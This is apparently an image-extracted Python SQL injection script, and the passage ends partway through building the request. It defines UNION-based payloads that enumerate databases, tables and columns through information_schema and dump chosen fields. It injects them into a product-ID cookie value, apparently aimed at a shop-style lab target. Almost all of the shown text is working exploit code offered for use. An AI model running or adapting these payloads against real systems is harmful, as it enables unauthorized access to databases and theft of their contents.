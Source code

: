 ```python

# ctrl C

def def_handler(signal, frame):
	log.failure('Aborted!')
	exit()

signal.signal(signal.SIGINT, def_handler)

# inyection types

def get_databases():
	return """' and false union select null, (select group_concat(0x7c, schema_name, 0x7c) from information_schema.schemata), null#"""

def get_tables(database):
	return f"""' and 1=0 union select null, (select group_concat(0x7c, table_name, 0x7c) from information_schema.tables where table_schema = '{database}'), null#"""

def get_columns(table):
	return f"""' and 0 union select null, (select group_concat(0x7c, column_name, 0x7c) from information_schema.columns where table_name = '{table}'), null#"""

def get_fields(column, table):
	return f"""' and 1>2 union select null, (select group_concat(0x7c, {column}, 0x7c) from {table}), null#"""

def get_info(query):
	return f"""' and 2=1 union select null, (select group_concat(0x7c, {query}, 0x7c)), null#"""

# selection of query types

def type_inyection(args):
    try:
        if len(sys.argv) == 1:
            return get_databases()
        elif args.database and args.table and args.column:
            return get_fields(args.column, args.table)
        elif args.database and args.table:
            return get_columns(args.table)
        elif args.database:
            return get_tables(args.database)
        elif args.query:
            return get_info(args.query)
    except Exception as e:
        print(e)


# request for inyection

def request(args):
	with requests.Session() as s:

		# select inyection type
		inyection = type_inyection(args)

		# Hummingbird printed t-shirt ID (cookie value)
		# add inyection
		product_id = f"""53GG2EF8{inyection}"""
		cookie_value = '{"' + product_id + '":"1"}'

		# urlencode cookie value
		urlcode_cookie = urllib.parse.quote(cookie_value)
```